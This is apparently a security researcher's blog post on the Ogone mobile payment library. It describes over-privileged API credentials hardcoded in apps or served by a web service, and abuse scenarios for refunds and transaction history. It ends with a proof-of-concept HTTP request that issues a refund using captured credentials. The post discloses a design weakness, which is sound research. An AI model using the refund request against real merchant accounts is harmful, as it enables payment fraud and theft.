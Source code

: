 
### Ogone Mobile Payment Library & API design

The mobile payment library communicates directly with Ogone backends, which means the client needs to authenticate itself to Ogone by using the organization's Ogone credentials. Developers have to create a specific API user per-application. That API user should have limited privileges that reflects the actual actions taken by the application such as creating a new transaction.

It appears that is not always the case and I suspect that this is due to Ogone's documentation misleading its customers. For example, we can read the following recommendations:

> Even if different kind of profiles exists for API users, we strongly recommend you to to configure your API users with the "Admin" profile.

Source: [Ogone User Manager Documentation](https://payment-services.ingenico.com/fr/fr/ogone/support/guides/user%20guides/user-manager)


By going through Ogone API documentation, I discovered two potential abuse scenarios:

- **Refund** An attacker use your organization's Ogone credentials to issue a refund once he received the goods or services he ordered.
- **Transaction history** An attacker use your organization's Ogone credentials to gain access to the transaction history. Combined with the refund attack, this could be used to perform a large scale refund of all transactions ever being executed with your Ogone credentials.


To capture Ogone credentials, an attacker needs to either reverse the application or place himself in a man-in-the-middle position to capture the application traffic. It depends on the application as I've observed two different schools for setting Ogone credentials:

* **hardcoded in the app**

{% highlight java %}
localOPCredentials.initOPParams("PSPID", "USERID", "PSWD", "SHA1PW");
{% endhighlight %}

* **returned by a webservice**

{% highlight xml %}
<ogoneConfigurations>
    <environment>PROD</environment>
    <password>PSWD</password>
    <pspId>PSPID</pspId>
    <secretPassPhrase>SHA1PASS</secretPassPhrase>
    <userId>USERID</userId>
</ogoneConfigurations>
{% endhighlight %}                                                                                            

Coming from the PoC\|\|GTFO school, here is how the attack would take place with captured credentials:

#### Refund attack

The following request would order Ogone to refund 2.10€ for the transaction 123456:

{% highlight text %}
POST /ncol/prod/maintenancedirect.asp
Host: secure.ogone.com
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Accept-Language: en-us
Accept: */*
Connection: close
User-Agent: mTerminal/1.1 CFNetwork/758.0.2 Darwin/15.0.0

AMOUNT=210&OPERATION=RFD&ORDERID=123456&PSPID=PSPID&PSWD=PSWD&SHASIGN=xxx&USERID
{% endhighlight %}
